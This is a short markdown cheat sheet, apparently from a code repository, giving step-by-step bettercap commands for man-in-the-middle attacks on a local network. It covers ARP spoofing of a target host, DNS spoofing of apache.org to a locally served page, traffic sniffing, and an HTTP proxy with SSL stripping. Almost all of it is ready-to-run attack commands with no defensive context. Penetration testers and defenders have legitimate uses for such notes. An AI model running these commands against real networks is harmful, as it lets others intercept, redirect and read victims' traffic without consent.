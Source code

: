 # bettercap

###  Using bettercap for dns spoofing 

In a local network, you can DNS queries using ARP spoofing

##### Activate router mode on attacker machine
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```

##### Show machines in the LAN
```sh
> net.show
```

##### Set target for ARP spoofing
```sh
> set arp.spoof.targets 192.168.5.99
```

##### Launch attack
```sh
> arp.spoof on
```

##### Set domain to spoof, spoof.all allow to also consider external requests and not only local ones
```sh
> set dns.spoof.domains apache.org
> set dns.spoof.all true
> dns.spoof on
```

##### You can then create a local web server
```sh
> set http.server.path /var/www/html
> http.server on
```


##  ARP Spoofing using Bettercap

### Activate router mode on attacker machine
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### Show machines in the LAN
```sh
> net.show
```

### Set target for ARP spoofing
```sh
> set arp.spoof.targets 192.168.5.99
```
### Launch attack
```sh
> arp.spoof on
```

## Proxy MiTM using Bettercap

### Configure sniffer verbosity
```sh
> set net.sniff.verbose false
> net.sniff on
```

### Then set the SSL proxy (It will create an autogenerated SSL cert)
```sh
> set http.proxy.sslstrip true
> http.proxy on
```